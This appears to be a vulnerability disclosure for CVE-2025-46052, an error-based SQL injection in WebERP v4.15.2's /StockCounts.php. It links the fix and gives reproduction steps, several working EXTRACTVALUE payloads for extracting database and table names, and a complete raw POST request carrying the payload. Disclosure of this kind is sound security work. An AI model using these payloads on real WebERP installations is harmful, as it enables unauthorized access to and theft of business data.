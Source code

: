 # CVE-2025-46052

---

## SQL Injection


An error-based SQL Injection (SQLi) vulnerability in WebERP v4.15.2 allows attackers to execute arbitrary SQL commands and extract sensitive data by injecting a crafted payload into the DEL form field within a POST request to /StockCounts.php

* Vulnerable Endpoint: /StockCounts.php
* Vulnerable Param: name
* Payload: 
```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))--
```

---

## Fix

Vulnerable StockCounts.php:
https://github.com/timschofield/webERP/blob/5460e51b04a7efc2340303bcada4803523a34bfe/StockCounts.php#L357

Remediated StockCounts.php:
https://github.com/timschofield/webERP/pull/401/commits/f325591313977db991a3b361b0dc801cfc180274


---

### Steps to reproduce:

1.) Authenticate as Accountant user.

2.) Proceed to [http://localhost:8083/StockCounts.php](http://localhost:8083/StockCounts.php)

3.) View entered counts:
![[Pasted image 20250513102810.png]]
![[Pasted image 20250513102816.png]]

4.) Select Delete and intercept the request:
![[Pasted image 20250513102836.png]]

5.) Append a ‘ and observe the database error:
![[Pasted image 20250513102849.png]]

6.) Use the following payload to get the database name via error based SQLi:

```
' AND EXTRACTVALUE(1,CONCAT(1,1,(MID((IFNULL(CAST(a() AS NCHAR),1)),1,1)),1)) AND '1'='1
```

![[Pasted image 20250513102911.png]]

7.) Use the following payload to get the table names within the weberp database by using the following payload:

```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))--
```

![[Pasted image 20250513102935.png]]

```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 1)))--
```

![[Pasted image 20250513102952.png]]

8.) Automate this process with SQLMap:

![[Pasted image 20250513103007.png]]


---

### Vulnerable Request:

```
POST /StockCounts.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Length: 689
Origin: http://localhost:8083
Connection: close
Referer: http://localhost:8083/StockCounts.php?&Action=View
Cookie: <cookie>
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="FormID"

cf945861690e4c3e30286ce15ec036c814414b48
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="Action"

View
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="DEL[8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))-- ]"

on
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="SubmitChanges"

Save Changes
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205--
```






